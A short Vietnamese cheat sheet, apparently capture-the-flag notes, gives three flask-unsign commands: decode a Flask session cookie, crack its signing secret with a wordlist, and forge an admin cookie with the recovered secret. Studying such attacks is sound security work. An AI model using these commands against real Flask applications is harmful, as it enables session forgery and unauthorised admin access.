 # Flask Python

## Để decode cookie
```cmd
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YN0XnA.7gxzLqrMvac6qFqngQVIbabvHAY' 
```

## Để dò secret
```cmd
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YN0XnA.7gxzLqrMvac6qFqngQVIbabvHAY' --wordlist=worklist_cookie.txt
```

## Thay đổi cookie và bỏ secret vào
```cmd
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
```

